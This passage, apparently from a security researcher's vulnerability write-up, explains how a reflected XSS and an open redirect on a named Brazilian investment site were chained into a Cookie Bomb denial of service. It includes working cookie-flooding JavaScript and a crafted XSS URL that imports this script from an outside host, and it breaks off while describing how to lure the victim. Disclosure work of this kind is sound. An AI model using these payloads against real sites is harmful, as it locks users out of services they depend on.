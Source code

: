 In search of a way to demonstrate an interesting impact with the combination of this RXSS + Open Redirect, I tried to use them to achieve an Account Takeover, Information Exfiltration and other forms of impact, but this was not possible since the application has a mechanism default MFA for any action that is classified as critical, such as: (a) alteration of email, (b) deletion of the account, (c) transfer/purchase/sale of investment funds; among others.

I spent a long time trying to show an interesting "exploitability" that used these two vulnerabilities but I always ran into some security feature that generated an impediment so I made the decision to use these two vulnerabilities to generate a Cookie Bomb attack that would make the application unavailable in case access via a malicious link sent to the user.

Basically the idea behind a Cookie Bomb attack is to send a request that contains a giant cookie to the application, causing the server to refuse any request from this user and not load the application itself, generating a denial of service.

A cookie has a 4k byte limit by default, it is possible to create many cookies and send them through the browser request, however the servers do not react very well to this type of scenario which makes the application inactive for the time determined by the cookie. or until the user manually removes the gigantic cookies.

If you are more interested in this vulnerability, I recommend reading the following articles:

1 -> [https://homakov.blogspot.com/2014/01/cookie-bomb-or-lets-break-internet.html](https://homakov.blogspot.com/2014/01/cookie-bomb-or-lets-break-internet.html)

2 -> [https://blog.innerht.ml/tag/cookie-bomb/](https://blog.innerht.ml/tag/cookie-bomb/)

---

### Proft of Concept

In practice the exploit would look like this:

1 -> First we need to serve JavaScript on the Internet that makes the creation of cookies in an abusive way for our target:

```javascript
var base_domain = document.domain.substr(document.domain.indexOf('.'));
var pollution   = Array(4000).join('a');

for (var i = 1; i < 99; i++) {
    document.cookie='bomb' + i + '=' + pollution + ';Domain=' + base_domain + ";path=/";
}

window.location="https://easynvest.com.br/acompanhar/investimentos";
```

Hosted on: [https://heitorgouvea.me/public/payloads/bomb.js](https://heitorgouvea.me/public/payloads/bomb.js)

2 -> We need to get our RXSS to read/execute this JavaScript:

[https://indique.easynvest.com.br/?nome=<audio src="" onerror=import('//heitorgouvea.me/public/payloads/bomb.js');>&id=1](https://indique.easynvest.com.br/?nome=%3Caudio%20src=%22%22%20onerror=import(%27//heitorgouvea.me/public/payloads/bomb.js%27);%3E&id=1)

3 -> We need to direct the user to this malicious RXSS in the least suspicious way possible:
